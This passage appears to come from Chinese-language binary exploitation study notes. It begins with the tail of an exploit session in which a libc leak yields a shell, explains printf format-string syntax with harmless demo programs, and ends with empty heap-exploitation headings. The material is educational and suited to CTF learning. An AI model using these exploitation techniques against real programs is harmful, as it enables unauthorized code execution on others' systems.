    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
  p.recvuntil('\n')
[*] libc:0x7f10cc852000
  p.recvuntil("hello\n")
[*] Switching to interactive mode
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## 第 5 章 格式化字符串漏洞

### 5.1 漏洞原理

C 语言中常用的格式化输出函数如下：

```
int printf(const char *format, ...)
int fprintf(FILE *stream, const char *format, ...)
int sprintf(char *str, const char *format, ...)
int snprintf(char *str, size_t size, const char *format, ...);
```

以 printf 为例，在C 语言中，printf 的常规用法为：

```
printf("%s\n", "hello world!")
printf("number:%d\n", 1)
```

其中，函数第一个参数带有 %d，%s 等占位符的字符串被称为格式化字符串，占位符用于指明输出的参数值如何格式化。

占位符的语法为：

```
%[parameter][flags][field width][.precision][length]type
```

#### 5.1.1 parameter

parameter 可以忽略或者为 `n$`，n 表示此占位符是传入的第几个参数。

#### 5.1.2 flags

flags 可为 0 个或多个，主要包括：

- `+`：总是表示有符号数值的 `+` 或 `-`，默认忽略正数的符号，仅适用于数值类型。
- 空格：有符号数的输出如果没有正负号或者输出 0 个字符，则以 1 个空格作为前缀。
- `-`：左对齐，默认是右对齐。
- `#`：对于 g 与 G，不删除尾部 0 以表示精度；对于 f、F、e、E、g、G，总是输出小数点；对于 o、x、X，在非 0 数值前分别输出前缀 0、0x 和 0X，表示数制。
- `0`：在宽度选项前，表示用 0 填充。

#### 5.1.3 field width

field width 给出显示数值的最小宽度，用于输出时填充固定宽度。实际输出字符的个数不足域宽时，根据左对齐或右对齐进行填充，负号解释为左对齐标志。如果域宽设置为 `*`，则由对应的函数参数的值为当前域宽。

#### 5.1.4 precision

precision 通常指明输出的最大长度，依赖于特定的格式化类型：

- 对于 d、i、u、x、o 的整型数值，指最小数字位数，不足的在左侧补 0。
- 对于 a、A、e、E、f、F 的浮点数值，指小数点右边显示的位数。
- 对于 g、G 的浮点数值，指有效数字的最大位数。
- 对于 s 的字符串类型，指输出的字节的上限。

如果域宽设置为 `*`，则对应的函数参数的值为 precision 当前域宽。

#### 5.1.5 length

length 指出浮点型参数或整型参数的长度：

- hh：匹配 int8 大小（1 字节）的整型参数。
- h：匹配 int16 大小（2 字节）的整型参数。
- l：对于整数类型，匹配 long 大小的整型参数；对于浮点类型，匹配 double 大小的参数；对于字符串 s 类型，匹配 wchar_t 指针参数；对于字符 c 类型，匹配 wint_t 型的参数。
- ll：匹配 long long 大小的整型参数。
- L：匹配 long double 大小的整型参数。
- z：匹配 size_t 大小的整型参数。
- j：匹配 intmax_t 大小的整型参数。
- t：匹配 ptrdiff_t 大小的整型参数。

#### 5.1.6 type

type 表示如下：

| 字符 | 含义                                                         |
| ---- | ------------------------------------------------------------ |
| d、i | 有符号十进制 int 值                                          |
| u    | 十进制 unsigned int 值                                       |
| f、F | 十进制 double 值                                             |
| e、E | double 值，输出形式为十进制的 `[-]d.ddd e[+/-]ddd`           |
| g、G | double 型数值，根据数值的大小，自动选 f 或 e 格式            |
| x、X | 十六进制 unsigned int 值                                     |
| o    | 八进制 unsigned int 值                                       |
| s    | 字符串，以 `\x00` 结尾                                       |
| c    | 一个 char 类型字符                                           |
| p    | void *指针型值                                               |
| a、A | double 型十六进制表示，即 `[-]0xh.hhhh p±d`，指数部分为十进制表示的形式 |
| n    | 把已经成功输出的字符个数写入对应的整型指针参数所指的变量     |
| %    | % 字面值，不接受任何 flags、width、precision 或 length       |

如果程序中 printf 的格式化字符串是可控的，即使在调用时没有填入对应的参数，printf 函数也会从该参数位置所对应的寄存器或栈中取出数据作为参数进行读写，容易造成任意地址读写。

### 5.2 C语言中的格式化字符串

#### 5.2.1 常见输出

```c
/* 测试常见的输出类型 */
#include "stdio.h"
#include "string.h"

int main()
{
	/* 以十进制形式输出带符号整数(正数不输出符号) */
	printf("%d\n", 1024);	//1024
	printf("%d\n", -1024);	//-1024
	
	/* 以八进制形式输出无符号整数(不输出前缀O) */
	printf("%o\n", 1024);	//2000
	printf("%o\n", -1024);	//37777776000
	
	/* 以十六进制形式输出无符号整数(不输出前缀OX) */
	printf("%x\n", 1024);	//400
	printf("%x\n", -1024);	//fffffc00
	
	/* 以十进制形式输出无符号整数 */
	printf("%u\n", 1024);	//1024
	printf("%u\n", -1024);	//4294966272
	
	/* 以小数形式输出单、双精度实数 */
	printf("%f\n", 1024.11);	//1024.110000
	printf("%f\n", 1024.11111111);	//1024.111111
	printf("%f\n", -1024.11);	//-1024.110000
	printf("%f\n", -1024.11111111);	//-1024.111111
	
	/* 以指数形式输出单、双精度实数 */
	printf("%e\n", 1024.11);	//1.024110e+03
	printf("%e\n", 1024.11111111);	//1.024111e+03
	printf("%e\n", -1024.11);	//-1.024110e+03
	printf("%e\n", -1024.11111111);	//-1.024111e+03
	
	/* 以%f%e中较短的输出宽度输出单、双精度实数 */
	printf("%g\n", 1024.11);	//1024.11
	printf("%g\n", 1024.111111111111);	//1024.11
	printf("%g\n", -1024.11);	//-1024.11
	printf("%g\n", -1024.111111111111);	//-1024.11
	
	/* 输出单个字符 */
	printf("%c\n", 'a');	//a
	printf("%c\n", 97);	//a
	
	/* 输出单个字符 */
	printf("%s\n", "threekiii");	//threekiii
	printf("%s\n", "12th34rEe56k7i8i98i");	//12th34rEe56k7i8i98i
	
}
```

#### 5.2.2 标志字符为-、+、#、空格的输出

```c
/* 测试标志字符为-、+、#、空格四种 */
#include "stdio.h"
#include "string.h"

int main()
{
	/* 以十进制形式输出带符号整数(正数不输出符号) */
	printf("*%-10d*\n", 1024);	//*1024      *
	printf("*%+10d*\n", -1024);	//*     -1024*
	printf("*%2d*\n", 1024);	//*1024*
	printf("*%#d*\n", -1024);	//*-1024*
	
	/* 以八进制形式输出无符号整数(不输出前缀O) */
	printf("*%-10o*\n", 1024);	//*2000      *
	printf("*%+10o*\n", -1024);	//*37777776000*
	printf("*%o*\n", 1024);	//*2000*
	printf("*%#o*\n", -1024);	//*037777776000*
	
	/* 以十六进制形式输出无符号整数(不输出前缀OX) */
	printf("$%-10x$\n", 1024);	//$400       $
	printf("$%010x$\n", -1024);	//$00fffffc00$
	printf("$% x$\n", 1024);	//$400$
	printf("$%#x$\n", -1024);	//$0xfffffc00$
	
	/* 以十进制形式输出无符号整数 */
	printf("%-10u\n", 1024);	//1024
	printf("%+10u\n", -1024);	//4294966272
	printf("% u\n", 1024);	//1024
	printf("%#u\n", -1024);	//4294966272
	
	/* 以小数形式输出单、双精度实数 */
	printf("%-10f\n", 1024.11);	//1024.110000
	printf("%+10f\n", 1024.11111111);	//+1024.111111
	printf("% f\n", -1024.11);	//-1024.110000
	printf("%#f\n", -1024.11111111);	//-1024.111111
	
	/* 以指数形式输出单、双精度实数 */
	printf("%-10e\n", 1024.11);	//1.024110e+03
	printf("%+10e\n", 1024.11111111);	//+1.024111e+03
	printf("% e\n", -1024.11);	//-1.024110e+03
	printf("%#e\n", -1024.11111111);	//-1.024111e+03
	
	/* 以%f%e中较短的输出宽度输出单、双精度实数 */
	printf("%-10g\n", 1024.11);	//1024.11
	printf("%+10g\n", 1024.111111111111);	//  +1024.11
	printf("% g\n", -1024.11);	//-1024.11
	printf("%#g\n", -1024.111111111111);	//-1024.11
		
	/* 输出单个字符 */
	printf("%-10c\n", 'a');	//a
	printf("%+10c\n", 97);	//         a
	printf("% c\n", 'a');	//a
	printf("%#c\n", 97);	//a
		
	/* 输出单个字符 */
	printf("%-20s\n", "threekiii");	//threekiii
	printf("%+20s\n", "12th34rEe56k7i8i98i");	// 12th34rEe56k7i8i98i
	printf("% 20s\n", "threekiii"); /* 不足补空格 */	//           threekiii
	printf("%#s\n", "12th34rEe56k7i8i98i");	//12th34rEe56k7i8i98i
}
```

#### 5.2.3 精度输出

```c
/* 测试精度 */
#include "stdio.h"
#include "string.h"

int main()
{
	printf("%.3d\n", 11111);	//11111
	printf("%.3f\n", 0.22);		//0.220
	printf("%.3f\n", 0.333333);	//0.333
	printf("%.4s\n", "threekiii");	//thre
}
```

#### 5.2.4 长度输出

```c
/* 测试长度 */
#include "stdio.h"
#include "string.h"
int main()
{
	int a = 12;
	float b = 123.4567890;
	double c = 12345678.1111111;
	char d = 'p';
	printf("a=%d,%5d,%o,%x\n", a, a, a, a);	//a=12,   12,14,c

	/* %f 和 %lf 格式的输出相同，说明 l 符对 f 类型无影响 */
	/* %5.4lf 指定输出宽度为 5，精度为 4，由于实际长度超过 5，应该按实际位数输出，小数位数超过 4 位 * 部分被截去 */
	printf("b=%f,%lf,%5.4lf,%e\n", b, b, b, b);	//b=123.456787,123.456787,123.4568,1.234568e+02

	/* 输出双精度实数，%8.4lf 由于指定精度为 4 位，截去了超过 4 位的部分 */
	printf("c=%lf,%f,%8.4lf\n", c, c, c);	//c=12345678.111111,12345678.111111,12345678.1111

	/* 输出字符量 d ，其中 %8c 指定输出宽度为 8，在输出字符 p 之前补加 7 个空格*/
	printf("d=%c,%8c\n", d, d);	//d=p,       p
}
```

### 5.3 基本利用方式

### 5.4 不在栈上的利用方式

### 5.5 一些特殊用法

### 5.6 总结

## 第 6 章 堆利用

### 6.1 什么是堆

### 6.2 简单的堆溢出

### 6.3 堆内存破坏漏洞利用

#### 6.3.1 Glibc 调试环境搭建

#### 6.3.2 Fast Bin Attack

#### 6.3.3 Unsorted Bin List

#### 6.3.4 Unlink 攻击

#### 6.3.5 Large Bin Attack（0CTF heapstormII）

#### 6.3.6 Make Life Easier：tcache

#### 6.3.7 Glibc 2.29 的 tcache

